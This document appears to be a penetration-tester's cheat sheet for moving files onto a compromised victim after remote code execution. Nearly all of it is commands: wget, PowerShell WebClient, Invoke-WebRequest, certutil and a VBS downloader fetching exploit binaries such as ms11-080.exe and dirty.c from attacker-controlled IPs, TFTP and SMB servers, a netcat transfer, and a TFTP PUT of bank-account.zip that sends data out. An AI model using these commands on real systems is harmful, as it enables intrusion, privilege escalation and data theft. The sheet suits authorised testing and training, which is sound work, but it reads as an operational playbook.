 # Serving up code
Once we have RCE, we can sometimes want to serve up files or code to download and execute
on the victim (e.g., webshell)

#### HTTP
```sudo service apache2 start
/var/www/html
wget http://192.168.1.42/go.exe
```

#### SIMPLE HTTP
```python SimpleHTTPServer.py```

Will serve up on port 8000 in the folder you run the script from

#### TFTP
```
atftpd --daemon --port 69 /tftp
cd /tftp touch incoming chmod 777 incoming
tftp -i 10.11.0.185 GET test.txt
tftp -i 10.11.0.185 PUT bank-account.zip incoming
```

#### SMB
```
smbserver.py [sharename] /tmp/smbserve/
Dir \\192.168.1.48\sharename
\\192.168.1.48\sharename\go.exe
```





# File Transfer - Windows
``tftp -i 10.11.0.185 GET test.txt``

```cscript wget.vbs http://10.11.0.158/ms11-080.exe -O C:\lec\ms11-080.exe```
#### Powershell 2
```(new-object System.Net.WebClient).Downloadfile("http://10.11.0.185/accesschk.exe", "C:\lec\accesschk.exe")```

#### Powershell 3
```Invoke-WebRequest "http://10.11.0.130/adfsys.exe" -OutFile "adfsys.exe"```

#### SimpleSMBServer
```smbserver.py lecon /var/www/html```

#### SimpleHTTPServer
```python -m SimpleHTTPServer```

#### FTP


# Linux
```wget http://10.11.0.158/dirty.c -O /tmp/dirty.c```

```scp root@10.11.0.158:~/Downloads/dirty.c .```

#### netcat

```
nc -lnvp <LPORT> < <FILE>
nc <RHOST> <RPORT> > <FILE>
```








#### Windows lol
[BitsAdmin ](https://lolbas-project.github.io/lolbas/Binaries/Bitsadmin/)

```certutil -urlcache -split -f "http://<LHOST>/<FILE>" <FILE>```
